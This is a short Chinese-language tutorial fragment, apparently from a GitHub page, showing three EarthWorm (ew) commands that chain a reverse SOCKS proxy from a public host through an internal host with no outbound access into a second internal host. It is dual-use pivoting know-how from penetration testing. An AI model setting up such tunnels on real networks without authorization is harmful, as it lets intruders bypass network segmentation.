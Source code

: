 #### 多级级联

```bash
# 具有公网IP的主机上监听1080端口并转发给本地8888端口
./ew_for_MacOSX64 -s rcsocks -l 1080 -e 8888 -t 1000000

# 目标不出网主机A将具有公网IP的主机的8888端口和内网主机B的9999端口连接起来
ew_for_Win.exe -s lcx_slave -d 192.168.168.71 -e 8888 -f 10.37.129.6 -g 9999 -t 1000000

# 内网主机B开启SOCKS v5服务并反弹到内网主机B的9999端口
ew_for_Win.exe -s ssocksd -l 9999 -t 1000000
```

![](img/9.png)
